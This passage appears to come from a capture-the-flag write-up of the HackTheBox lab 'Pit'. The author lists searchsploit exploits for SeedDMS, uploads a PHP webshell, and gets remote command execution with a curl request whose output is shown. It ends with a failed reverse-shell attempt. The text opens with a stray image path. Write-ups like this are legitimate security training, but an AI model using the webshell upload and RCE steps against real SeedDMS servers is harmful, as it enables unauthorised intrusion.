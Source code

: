 It appears that this is version 5.1.15, which does not have any vulnerabilities via `searchsploit`. This service supports file uploads and is PHP based, so let's try to upload a webshell within Michells' folder.

<figure><img src="../../../.gitbook/assets/image (39) (5) (2).png" alt=""><figcaption></figcaption></figure>

This had the document ID of 29, but I didn't know what to do further. Checking the `searchsploit` output again, we can see that there are RCE exploits for this but they are of the wrong version.

```
$ searchsploit seed    
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Deluge 1.3.15 - 'Webseeds' Denial of Service (PoC)                   | windows/dos/46884.py
Seeddms 5.1.10 - Remote Command Execution (RCE) (Authenticated)      | php/webapps/50062.py
SeedDMS 5.1.18 - Persistent Cross-Site Scripting                     | php/webapps/48324.txt
SeedDMS < 5.1.11 - 'out.GroupMgr.php' Cross-Site Scripting           | php/webapps/47024.txt
SeedDMS < 5.1.11 - 'out.UsrMgr.php' Cross-Site Scripting             | php/webapps/47023.txt
SeedDMS versions < 5.1.11 - Remote Command Execution                 | php/webapps/47022.txt
SetSeed CMS 5.8.20 - 'loggedInUser' SQL Injection                    | php/webapps/18065.txt
Wordpress Plugin Maintenance Mode by SeedProd 5.1.1 - Persistent Cro | php/webapps/48724.txt
--------------------------------------------------------------------- ---------------------------------
```

I decided to try the one for v5.1.11 again just in case. Following the PoC, I was able to replicate it and get RCE.

```
$ curl http://dms-pit.htb/seeddms51x/data/1048576/30/1.php?cmd=id 
uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
```

Great! I tried to get a reverse shell as this user, but it seems that I couldn't even download any files or make any external connections. So we probably need to look around further.&#x20;
